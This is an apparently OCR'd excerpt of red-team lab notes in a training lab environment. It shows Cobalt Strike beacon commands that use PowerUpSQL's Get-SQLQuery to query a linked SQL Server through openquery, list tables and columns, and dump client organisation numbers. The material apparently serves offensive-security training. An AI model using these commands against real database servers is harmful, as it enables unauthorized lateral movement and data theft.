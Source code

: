 TABLE_CATALOG TABLE_SCHEMA TABLE_NAME            TABLE_TYPE
------------- ------------ ----------            ----------
master        dbo          spt_fallback_db       BASE TABLE
master        dbo          spt_fallback_dev      BASE TABLE
master        dbo          spt_fallback_usg      BASE TABLE
master        dbo          spt_values            VIEW      
master        dbo          spt_monitor           BASE TABLE
master        dbo          MSreplication_options BASE TABLE
master        dbo          VIPClients            BASE TABLE
```

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns')"

column_name
-----------
City
Name
OrgNumber
Street
VIPClientsID
```

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 OrgNumber from master.dbo.VIPClients')"

OrgNumber  
---------  
65618655299
69838663099
12289506999
73723428599
51766460299
```